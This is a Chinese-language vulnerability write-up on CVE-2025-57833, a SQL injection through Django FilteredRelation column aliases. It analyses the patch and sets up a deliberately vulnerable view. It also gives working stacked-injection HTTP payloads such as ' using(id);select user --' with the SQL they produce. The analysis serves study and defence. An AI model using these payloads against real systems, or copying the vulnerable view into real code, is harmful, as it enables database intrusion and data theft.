







# CVE-2025-57833：Potential SQL injection in FilteredRelation column aliases-先知社区

> **来源**: https://xz.aliyun.com/news/19236  
> **文章ID**: 19236

---

Django时隔一年爆出来的SQL注入漏洞，大概一看大概是别名引起的注入（**毕竟别名是无法预编译的**）

该漏洞影响 Django 框架中的 `FilteredRelation` 功能，当使用 `QuerySet.annotate()` 或 `QuerySet.alias()` 方法，并通过 Python 的字典扩展 (\*\*kwargs) 提供列别名时，存在 SQL 注入风险。这是由于对字典键（即列别名）未进行充分验证，导致攻击者可构造恶意字典注入不受限制的 SQL 语句。

​



## 0x01 补丁分析

补丁: <https://github.com/django/django/commit/4c044fcc866ec226f612c475950b690b0139d243>

补丁修改其实不大，主要改动就一行，在`add_filtered_relation`方法中对可能被用户控制的别名`alias`调用`check_alias`方法进行校验



`check_alias`方法的实现如下

```
    def check_alias(self, alias):
        if FORBIDDEN_ALIAS_PATTERN.search(alias):
            raise ValueError(
                "Column aliases cannot contain whitespace characters, quotation marks, "
                "semicolons, or SQL comments."
            )
```

主要就是通过`FORBIDDEN_ALIAS_PATTERN`正则过滤一些可能存在注入风险的元字符，涵盖了各类数据库相关的一些逃脱字符串，注释相关的各类字符

```
FORBIDDEN_ALIAS_PATTERN = _lazy_re_compile(r"['`"\]\[;\s]|--|/\*|\*/")
```

这个`check_alias`方法不是这次的补丁新增的，是之前修复

[CVE-2022-28346: Potential SQL injection in QuerySet.annotate(), aggregate(), and extra()](https://www.djangoproject.com/weblog/2022/apr/11/security-releases/)引入的

，只不过当时少过滤了这么一个地方，所以就还存在这么个漏洞，至于官方之前为什么会过滤漏这个地方，其实也是有点情有可原的，因为这次的这个漏洞涉及到的不是一般的别名而是关联表时用到的别名。

上述的`add_filtered_relation`是由`django-5.1.12\django\db\models\query.py`中的`_annotate()`进行调用，而该方法最终会被`QuerySet.annotate()` 或 `QuerySet.alias()` 方法调用，所以正如官方公告所说，如果自己编写的业务查询使用到了`QuerySet.annotate()` 或 `QuerySet.alias()` 方法，并且允许外部用户控制查询的`alias`名，就会存在SQL注入

## 0x02 漏洞复现

### 2.1 环境搭建

* python:3.11
* django:5.2
* 数据库:postgresql

### 2.2 应用目录

**models.py**

由于涉及到关联查询，创建如下model

```
from django.db import models

# Create your models here.

class Author(models.Model):
    name = models.CharField(max_length=50)

class Book(models.Model):
    title = models.CharField(max_length=100)
    author = models.ForeignKey(Author, on_delete=models.CASCADE)
```

Author是Book的外键

**views.py**

实现一个存在该sql注入漏洞的视图

```
import json
from django.http import HttpRequest, HttpResponse, JsonResponse
from django.views import View
from django.db.models import FilteredRelation, F, Q, Count
from vuln.models import Author, Book


def index(request):
    return HttpResponse("book app")


class Books(View):
    http_method_names = ['get','post']

    def get(self, request:HttpRequest):
        return HttpResponse("book app, search by POST /book/search")


    def post(self, request: HttpRequest):
        try:
            body = json.loads(request.body)
            alias_name = body.get('alias', 'book_author')
            author_filter = body.get('author', None)
            query = Book.objects.annotate(
                **{alias_name: FilteredRelation("author", condition=Q(author__name=author_filter) if author_filter else Q())}
            ).filter(**{f"{alias_name}__id__gt": 0})

            sql = query.query
            print(sql)
            res = list(query.values_list())

            return JsonResponse({
                'status': 'success',
                'data': {
                    'books': res,
                    'total': len(res)
                },
                'sql': str(sql)
            })
        except Exception as e:
            return JsonResponse({
                'status': 'error',
                'message': str(e)
            }, status=500)

```

该接口其实就是接受外部的`alias`参数、以及`author`参数用于过滤某个用户下相关的书籍

这里的核心是

```
query = Book.objects.annotate(
                **{alias_name: FilteredRelation("author", condition=Q(author__name=author_filter) if author_filter else Q())}
            ).filter(**{f"{alias_name}__id__gt": 0})
```

这里一定需要使用到`FilteredRelation`，因为只有使用`FilteredRelation`时，才能走到关键的`add_filtered_relation`调用



在 Django ORM 里，`FilteredRelation` 是一个比较高级的特性，用于 在 ORM JOIN 上添加过滤条件，并生成别名 。它是在 Django 2.0 引入的，目的是让开发者能更精细地控制 `annotate()`、`filter()`、`Q()` 等操作中的关联表条件

（一般join查询都是基于2个表中的某个字段相等做的关联，使用FilteredRelation，可以在这个基础上添加其他额外的过滤条件）

我们这里就是在关联Author的时候除了使用id相等作为关联条件之外，还增加了个条件`Q(author__name=author_filter)`用于根据用户输入的author参数进行过滤

**urls.py**

```
from django.urls import path

from . import views

urlpatterns = [
    path("search", views.Books.as_view(), name="search"),
]
```

​

之后启动django，我这里服务启动设置的端口是8085



### 2.3 实际利用分析

访问/book/search接口，正常去访问

```
POST /book/search HTTP/1.1
Host: localhost:8085
Content-Type: application/json

{"alias":"XXX","author":"Bob"}
```



此时django orm底层编译出来的sql为

```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author" XXX ON ("vuln_book"."author_id" = XXX."id" AND (XXX."name" = Bob)) WHERE XXX."id" > 0
```

可以看到将创建了一个vuln\_author表的别名XXX，基于上述补丁分析可知当前没有对XXX进行过滤，所以我们对其进行注入。

直接使用堆叠注入由于之前的第一个sql不合法并不会执行到第二个sql

```
POST /book/search HTTP/1.1
Host: localhost:8085
Content-Type: application/json

{"alias":"XXX;select user --","author":"Bob"}
```



所以我们需要先使得第一个语句合法，此处由于是关联关系，所以我直接使用using语法

```
POST /book/search HTTP/1.1
Host: localhost:8085
Content-Type: application/json

{"alias":" using(id);select user --","author":"Bob"}
```

至此注入成功，查到了数据库的执行用户为postgres，此时底层编译成功的sql语句为

```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author"  using(id);select user -- ON ("vuln_book"."author_id" =  using(id);select user --."id" AND ( using(id);select user --."name" = Bob)) WHERE  using(id);select user --."id" > 0
```

## 0x03 插曲

最开始从补丁分析出来其实只要使用annotate+FilteredRelation即可存在漏洞，但是发现实际验证的时候并非如此

我们将上述view.py的关键语句，修改以下，移除后面的`filter`

```
query = Book.objects.annotate(
                **{alias_name: FilteredRelation("author", condition=Q(author__name=author_filter) if author_filter else Q())}
            )
```

此时不管我们如何调整我们的poc，发现我们输入的alias根本没有在最终生成的sql中出现



这个是因为django orm底层做优化，发现后面没有使用到相关的别名，就直接移除了，对此我才在后面加了个filter去使用别名。

## 0x04 总结

这次漏洞本质上是 ORM 动态别名未过滤导致的 SQL 注入。虽然注入点较隐蔽（仅在特定 ORM 组合下触发），但影响范围广。修复方式是 在 alias 定义时强制校验名称合法性。开发者在使用 ORM 的高级特性（如 FilteredRelation、annotate、alias）时，应避免将用户输入直接拼入查询结构中。

另外相关的环境和代码可以在我的github上找到<https://github.com/sw0rd1ight/CVE-2025-57833>
